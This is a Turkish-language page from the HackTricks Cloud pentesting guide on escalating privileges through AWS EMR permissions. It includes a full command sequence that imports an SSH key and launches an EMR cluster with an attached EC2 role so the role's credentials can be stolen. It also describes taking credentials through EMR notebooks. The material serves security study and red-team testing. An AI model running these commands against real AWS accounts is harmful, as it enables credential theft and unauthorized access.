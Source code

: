 # AWS - EMR Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünleri**](https://peass.creator-spring.com)'ni edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## EMR

EMR hakkında daha fazla **bilgi** için:

{% content-ref url="../aws-hizmetleri/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-hizmetleri/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **EC2 rollerini ekleyerek yeni bir EMR kümesi çalıştırabilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunun için hesaba **ithal edilmiş bir ssh özel anahtarı bilmek** veya bir tane **ithal etmek** ve **ana düğümde 22 numaralı bağlantı noktasını açabilmek** gerekmektedir (bunu `--ec2-attributes` içindeki `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleriyle yapabilirsiniz).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
**EMR rolü** `--service-role` içinde belirtilir ve **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` içinde belirtilir. Ancak, bu teknik sadece EC2 rolü kimlik bilgilerini çalmaya izin verir (ssh üzerinden bağlantı kuracağınız için) ancak EMR IAM Rolünü çalmaya izin vermez.

**Potansiyel Etki:** Belirtilen EC2 hizmet rolüne ayrıcalık yükseltme.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Not Defteri oluşturabilir ve ona erişerek IAM Rolünü çalabilir.

{% hint style="danger" %}
Not defteri örneğine bir IAM rolü ekleseniz bile, testlerimde fark ettiğim gibi, AWS tarafından yönetilen kimlik bilgilerini çalabildim ve IAM rolüyle ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS tarafından yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'e ayrıcalık yükseltme.

### `elasticmapreduce:OpenEditorInConsole`

Sadece bu izinle bir saldırgan, **Jupyter Notebook'a erişebilir ve ona bağlı IAM rolünü** çalabilir.\
Not defterinin URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/` şeklindedir.

{% hint style="danger" %}
Not defteri örneğine bir IAM rolü ekleseniz bile, testlerimde fark ettiğim gibi, AWS tarafından yönetilen kimlik bilgilerini çalabildim ve IAM rolüyle ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS tarafından yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'e ayrıcalık yükseltme.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
